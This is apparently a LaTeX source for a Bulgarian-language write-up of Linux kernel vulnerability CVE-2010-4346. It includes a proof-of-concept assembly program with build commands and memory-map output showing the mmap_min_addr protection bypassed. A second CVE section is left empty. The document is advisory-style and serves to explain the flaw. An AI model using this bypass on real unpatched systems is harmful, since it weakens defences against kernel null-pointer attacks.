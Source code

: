 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\section{CVE-2010-4346 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{install\_special\_mapping} в\textit{ mm/mmap.c} в Linux ядрото преди 2.6.37-rc6 не извиква функцията \textit{security\_file\_mmap}, което позволява да се заобиколят зададените \textit{mmap\_min\_addr} ограничения и евентуално да се извърши атака с дереференциране на нулев указател, чрез специално създадена програма на асемблер.

\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-07-19
  	\item Добива публичност: 2010-11-13
    \item Оправен: 2010-12-15\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}
\end{itemize}


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\end{document}
